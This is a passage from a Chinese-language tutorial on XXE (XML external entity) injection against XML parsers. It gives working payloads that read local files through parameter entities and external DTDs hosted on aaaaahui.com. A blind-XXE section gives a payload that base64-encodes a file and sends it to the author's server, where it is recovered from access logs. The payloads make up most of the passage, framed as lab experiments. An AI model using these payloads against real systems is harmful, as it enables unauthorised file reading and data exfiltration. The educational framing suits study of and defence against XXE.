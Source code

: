 ```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
<!ENTITY % start "<![CDATA[">
<!ENTITY % go SYSTEM "file:///c:/test.txt">
<!ENTITY % end "]]>">
<!ENTITY % dtd SYSTEM "http://aaaaahui.com/evil.dtd"> %dtd;
]> 
<root>&all;</root>
```

http://aaaaahui.com/evil.dtd

```
<!ENTITY all "%start;%go;%end;">
```

![1607183487_5fcbac7fa4f73085875de.png!small](XXE%E5%A4%96%E9%83%A8%E5%AE%9E%E4%BD%93%E6%B3%A8%E5%85%A5/1607183487_5fcbac7fa4f73085875de.png!small)可以看到这个payload是可以成功读取文件的，对比两个payload

![1607183499_5fcbac8b9b55d80810186.png!small](XXE%E5%A4%96%E9%83%A8%E5%AE%9E%E4%BD%93%E6%B3%A8%E5%85%A5/1607183499_5fcbac8b9b55d80810186.png!small)



![1607183507_5fcbac93835c218916471.png!small](XXE%E5%A4%96%E9%83%A8%E5%AE%9E%E4%BD%93%E6%B3%A8%E5%85%A5/1607183507_5fcbac93835c218916471.png!small)

两个payload的逻辑都是一样的，不过第二个是调用的外部的dtd文档就可以，这是因为在xml中，xml 解析器有个限制：不能在内部 Entity 中引用，“PEReferences forbidden in internal subset in  Entity ”指的就是禁止内部参数实体引用。

## 无回显xxe漏洞利用

现在很多xxe漏洞都是没有回显的，下面是再没有回显的时候可以的利用方式。

思路就是在没有回显的时候，我们将读取的文件带出来，举一个例子就是，我们如果将/etc/passwd文件赋给实体test，那么我们在访问http://www.aaaaahui.com/?%test时，我们服务器上的日志文件就会保存/etc/passwd的文件内容，下面进行实验：

```
<?xml version="1.0"?>
<!DOCTYPE message [    
<!ENTITY % remote SYSTEM "http://aaaaahui.com/xml.dtd">
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///c:/test.txt">
%remote;
%send;
]>
<message>1234</message>
```

xml.dtd

```
<!ENTITY % start "<!ENTITY &#x25; send SYSTEM 'http://aaaaahui.com/?%file;'>">%start
```

&#x25是%的html实体编码，因为在xml.dtd的实体中不能有%

实验如下图

![1607183516_5fcbac9c89546b2fb236f.png!small](XXE%E5%A4%96%E9%83%A8%E5%AE%9E%E4%BD%93%E6%B3%A8%E5%85%A5/1607183516_5fcbac9c89546b2fb236f.png!small)

查看日志文件

![1607183525_5fcbaca5ca6bd9c3dd452.png!small](XXE%E5%A4%96%E9%83%A8%E5%AE%9E%E4%BD%93%E6%B3%A8%E5%85%A5/1607183525_5fcbaca5ca6bd9c3dd452.png!small)

这里我们读取的文件已经带出来了，那么原理就是将文件赋给实体后带着访问我们的vps然后在日志文件中就能看到我们读取的文件了。